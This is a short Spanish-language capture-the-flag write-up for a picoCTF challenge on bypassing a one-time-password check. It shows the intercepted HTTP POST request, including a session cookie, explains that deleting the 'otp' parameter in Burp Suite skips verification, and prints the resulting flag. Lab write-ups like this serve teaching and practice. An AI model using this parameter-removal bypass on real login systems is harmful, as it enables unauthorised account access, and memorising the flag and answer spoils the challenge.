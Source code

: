 Try [here](http://titan.picoctf.net:61374/) to find the flag

Hints:
1.-Try using burpsuite to intercept request to capture the flag.
2.-Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.

### Solucion
```
Entramos a BurpSuite con el link del sitio, hacemos el registro en la pagina sencilla, luego ponemos cualquier cosa en 2fa authentication y interceptamos el request, alli aparece este codigo:

POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56122
Content-Length: 7
Cache-Control: max-age=0
Accept-Language: es-419,es;q=0.9
Origin: http://titan.picoctf.net:56122
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:56122/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJwtjMsOgyAQRf-FdRcCEqC7Lrqr32CmMEajMgakjzT9945Jl-fcnPsRYdrf4iw6WuElTiKUPPQ7zZhYOgStbfAOQoiNb0yIgM54bb02g1etjKiUldwNdVn6BCtyds3TzIr2jcE6J51n3KCUJ-XIbqTlIrU65EgJ-1TXO2YeWqNa46xRx1YL5v_jreIDEonvDz31NLg.Z_b76Q._dsGUJ6c2eyb-htyT5bLAa6VkJ4
Connection: keep-alive

otp=Lol

Solo borramos el otp=Lol y damos que si al forward:

Welcome, Luevano you sucessfully bypassed the OTP request. Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_9090d63c}
```